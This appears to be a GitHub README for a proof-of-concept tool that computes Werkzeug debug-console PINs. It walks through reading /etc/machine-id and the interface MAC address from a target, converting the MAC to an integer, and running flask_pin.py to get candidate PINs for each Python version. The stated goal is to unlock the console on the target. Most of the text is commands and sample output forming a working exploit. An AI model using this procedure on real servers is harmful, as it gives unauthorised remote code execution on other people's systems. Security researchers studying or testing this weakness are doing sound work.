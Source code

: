 # Werkzeug Console PIN Exploit
![alt text](https://github.com/ahrixia/flask-console-pin-generator/blob/main/poc-img/Werkzeug_Console_OUT.png "Locked Console")
### Tested on :
- Python 3.6.9
- Server - Werkzeug 1.0.1
- Linux 4.15.0-20-generic #21-Ubuntu x86_64 GNU/Linux

## Proof of Concept - POC
1. Get `/etc/machine-id` and `/sys/class/net/$INTERFACE/address` from the target. 
3. Convert the Interface address(MAC) to integer form. Eg- `00:50:56:bf:d7:70` to `345052796784`. This could be done using python as follows:
```python
>>> print(0x005056bfd770)
345052796784
```
3. Run the python script.
```bash
$python3 flask_pin.py --uuid 345052796784  --machineid 00566233196142e9961b4ea12a2bdb29 
[!] App.py base path not provided, trying on Python Versions - 2.7 and 3.0 - 3.8.
Python V2.7 PIN: 134-138-423
Python V3.0 PIN: 278-866-810
Python V3.1 PIN: 299-529-114
Python V3.2 PIN: 223-757-906
Python V3.3 PIN: 181-173-573
Python V3.4 PIN: 201-362-587
Python V3.5 PIN: 195-645-696
Python V3.6 PIN: 328-723-543
Python V3.7 PIN: 300-924-247
Python V3.8 PIN: 880-398-758
```
4. Use the PIN with the Python Version installed on the target to get into the console.
![alt text](https://github.com/ahrixia/flask-console-pin-generator/blob/main/poc-img/Werkzeug_Console_IN.png "Unlocked Console")
---
**NOTE**: This script runs with some default infomation such as Username as www-data and Hash as MD5. You can run the `-h` flag for more information.
